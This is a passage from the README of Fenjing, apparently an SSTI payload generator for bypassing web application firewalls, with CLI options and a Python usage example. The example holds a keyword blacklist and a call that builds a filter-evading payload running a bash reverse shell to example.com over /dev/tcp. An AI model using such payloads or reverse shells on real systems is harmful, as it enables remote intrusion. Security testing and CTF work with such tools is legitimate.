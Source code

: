 ```

  启动webui

Options:
  -h, --host TEXT     需要监听的host, 默认为127.0.0.1
  -p, --port INTEGER  需要监听的端口, 默认为11451
  --help              Show this message and exit.
```

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

其他使用例可以看[这里](examples.md)

## 项目结构

[![](https://mermaid.ink/img/pako:eNptU8tuwyAQ_BWE1JziH8ihh6rXntpT68ja4CVGxYvLo0ka5d-L7SQGxxwQDLuzj1nOXJga-YZLbQ6iAevZx0tJLC4XdnsLXcOCV9qxEeyXMNpY9YcTYvEnoPNoJ0ga26Yu5Px0HU9I9TySQ1soikQSBKYhtfqS4DYSivjYKgLdY9vJ4oC70NvsehupLEpzHMFtRsOK4nnE70mwWRbCgvhG6xK_EUmigaxkIFHtkSY0MrTKZ21wAqgKVj9wDXksOKTPy1FSdIllaGtJs6I6OGkDdVLU0xOrY5-EV4buol_F8nj01S-kPXANal1daTJjqfaPuAyTdZ7_IpjTsFUebihzzjiA6X21kPl9xm7SZ1LewFylcR9mZMEl0eexxpL4mrdxQkHV8VOde5-S-wZbLPkmHgmDt6BLXtIlmkLw5v1Egm-8DbjmoavB46uCKFrL4yhrF9EO6NOY6Y618sa-jR93-L-Xf1aoMIE?type=png)](https://mermaid.live/edit#pako:eNptU8tuwyAQ_BWE1JziH8ihh6rXntpT68ja4CVGxYvLo0ka5d-L7SQGxxwQDLuzj1nOXJga-YZLbQ6iAevZx0tJLC4XdnsLXcOCV9qxEeyXMNpY9YcTYvEnoPNoJ0ga26Yu5Px0HU9I9TySQ1soikQSBKYhtfqS4DYSivjYKgLdY9vJ4oC70NvsehupLEpzHMFtRsOK4nnE70mwWRbCgvhG6xK_EUmigaxkIFHtkSY0MrTKZ21wAqgKVj9wDXksOKTPy1FSdIllaGtJs6I6OGkDdVLU0xOrY5-EV4buol_F8nj01S-kPXANal1daTJjqfaPuAyTdZ7_IpjTsFUebihzzjiA6X21kPl9xm7SZ1LewFylcR9mZMEl0eexxpL4mrdxQkHV8VOde5-S-wZbLPkmHgmDt6BLXtIlmkLw5v1Egm-8DbjmoavB46uCKFrL4yhrF9EO6NOY6Y618sa-jR93-L-Xf1aoMIE)

## Stars

[![Stargazers over time](https://github.com/Marven11/Fenjing/raw/images/assets/stars.svg))](https://starchart.cc/Marven11/Fenjing)
